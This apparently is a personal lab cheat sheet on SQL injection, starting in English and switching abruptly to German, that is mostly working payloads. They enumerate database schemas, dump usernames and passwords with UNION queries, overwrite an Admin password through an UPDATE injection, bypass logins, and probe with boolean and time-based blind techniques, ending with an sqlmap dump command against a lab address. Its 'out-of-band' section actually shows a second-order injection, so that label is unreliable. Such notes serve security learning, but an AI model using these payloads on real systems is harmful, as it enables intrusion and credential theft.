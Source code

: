 ```yaml
---
description: manipulate database queries through user input
---
```


# sql injection — break databases through bad input handling

<details>

<summary>Links:</summary>

[https://portswigger.net/support/sql-injection-in-different-statement-types](https://portswigger.net/support/sql-injection-in-different-statement-types)

</details>

widespread vulnerability in web applications that allows attackers to inject malicious input into SQL queries, gaining unauthorized database access or modifying data. affects `SELECT`, `UPDATE`, `DELETE`, and `INSERT` statements. consequences range from data theft to complete database control.

## in-band sqli

**definition:**
simplest and most common form. extracted data is returned through the same communication channel as the original request. two common subtypes: error-based and union-based.

### database information gathering

goal: extract information about the database management system (DBMS) - version, tables, columns.

**version detection examples:**

```sql
-- MySQL and MSSQL
',nickName=@@version,email='

-- Oracle  
',nickName=(SELECT banner FROM v$version),email='

-- SQLite
',nickName=sqlite_version(),email='
```

#### **1.2 Strukturabfragen in SQLite**

In SQLite lassen sich Tabellen und Spalten wie folgt auslesen:

```sql
-- Tabellen auflisten
',nickName=(SELECT group_concat(tbl_name) 
FROM sqlite_master 
WHERE type='table' 
AND tbl_name NOT like 'sqlite_%'),email='

-- Struktur (DDL) einer bestimmten Tabelle anzeigen
',nickName=(SELECT sql 
FROM sqlite_master 
WHERE type!='meta' AND sql NOT NULL AND name='usertable'),email='

-- Inhalt der Tabelle „usertable“ auslesen
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") 
FROM usertable),email='
```

#### **1.3 Passwortänderung (UPDATE-Injection)**

Ein direktes Update eines Benutzerpassworts mittels SQLi:

```sql
', password='[SHA256_HASH]' WHERE name='Admin'-- -
```

Beispiel-Hash von „Password123“ (SHA256):

```
008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601
```

***

### **2. Error-Based SQLi**

**Definition:**\
Bei dieser Methode provozieren Angreifer gezielt Fehlermeldungen der Datenbank, um daraus Informationen über deren Struktur und Inhalte abzuleiten. Dies ist nur möglich, wenn Fehlermeldungen im Frontend angezeigt werden.

***

### **3. Union-Based SQLi**

**Definition:**\
Hierbei wird der `UNION SELECT`-Operator genutzt, um eigene Ergebnisse mit denen der regulären SQL-Abfrage zu kombinieren.

#### **Wichtige Voraussetzungen:**

* Die Anzahl der Spalten der ursprünglichen Abfrage muss mit der der `UNION SELECT`-Abfrage übereinstimmen.
* Die Datentypen der Spalten müssen kompatibel sein.

#### **Anwendungsbeispiele:**

**Spaltenanzahl herausfinden:**

```sql
' UNION SELECT 1,2,3,... -- -
```

**Datenbankname ermitteln:**

```sql
' UNION SELECT 1,2,3 WHERE database() LIKE '%';-- 
```

**Tabellennamen auslesen:**

```sql
0 UNION SELECT 1,2,group_concat(table_name) 
FROM information_schema.tables 
WHERE table_schema = 'sqli_one'
```

**Spaltennamen aus Tabelle ermitteln:**

```sql
0 UNION SELECT 1,2,group_concat(column_name) 
FROM information_schema.columns 
WHERE table_name = 'staff_users'
```

**Zugangsdaten extrahieren:**

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') 
FROM staff_users
```

***

### **4. Blind SQLi**

**Definition:**\
Blind SQL-Injection kommt zum Einsatz, wenn keine Fehlermeldungen oder Ausgaben erfolgen. Die Rückmeldungen der Anwendung basieren auf _wahren oder falschen Bedingungen_, nicht auf expliziter Anzeige von Daten.

***

### **4.1 Klassische Blind SQLi**

Einzelne Zeichen eines Passworts werden iterativ getestet. Reagiert die Anwendung unterschiedlich (z. B. Weiterleitung, HTTP-Code, Textanzeige), können Rückschlüsse auf den Wahrheitsgehalt gezogen werden.

```sql
admin123' AND substring(password,1,1) = 'a' -- -
```

***

### **4.2 Blind SQLi – Authentication Bypass**

Manipulation von Loginformularen, um ohne gültige Zugangsdaten Zugang zu erhalten.

```sql
select * from users where username='' and password='' OR 1=1;
```

**Achtung:**\
Solche Techniken können bei `UPDATE`- oder `DELETE`-Abfragen zu schwerwiegenden Datenverlusten führen, wenn `OR 1=1` alle Datensätze betrifft.

***

### **4.3 Boolean-Based Blind SQLi**

Die Anwendung unterscheidet in der Antwortausgabe zwischen _wahr_ und _falsch_.

**Beispiele:**

```sql
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 's%';--

admin123' UNION SELECT 1,2,3 
FROM information_schema.tables 
WHERE table_schema = 'sqli_three' AND table_name = 'users';
```

***

### **4.4 Time-Based Blind SQLi**

Statt einer sichtbaren Reaktion wird die Ausführungszeit manipuliert. Bleibt die Seite z. B. 5 Sekunden stehen, ist die getestete Bedingung wohl _wahr_.

```sql
admin123' UNION SELECT SLEEP(5),2;--
```

***

### **5. Out-of-Band SQLi**

**Definition:**\
Diese Methode nutzt alternative Kommunikationskanäle (z. B. HTTP, DNS), um Daten zu exfiltrieren – besonders nützlich, wenn keine sichtbaren Ausgaben oder Zeitunterschiede möglich sind.

**Beispiel mit mehrstufiger Abfrageverarbeitung:**

```sql
' union select '1'' union select 1,2,3,group_concat(password) from users-- -
```

**Verarbeitung durch Anwendung:**

**Query 1:**

```sql
SELECT id FROM books WHERE title like '' union select '1'' union select 1,2,3,group_concat(password) from users-- -%'
```

**Query 2:**

```sql
SELECT * FROM books WHERE id = '1' union select 1,2,3,group_concat(password) from users-- -%'
```

***

### **6. SQLMap – Automatisierte SQLi-Erkennung und -Ausführung**

**SQLMap** ist ein Open-Source-Tool zur automatisierten Ausnutzung von SQLi-Schwachstellen. Es kann unter anderem Datenbanken identifizieren, Tabellen und Spalten extrahieren und Authentifizierungsmechanismen umgehen.

**Beispiel für SQLMap-Einsatz:**

```bash
sqlmap -u http://10.10.67.130:5000/challenge3/login \
--data="username=admin&password=admin" \
--level=5 --risk=3 --dbms=sqlite --technique=b --dump
```

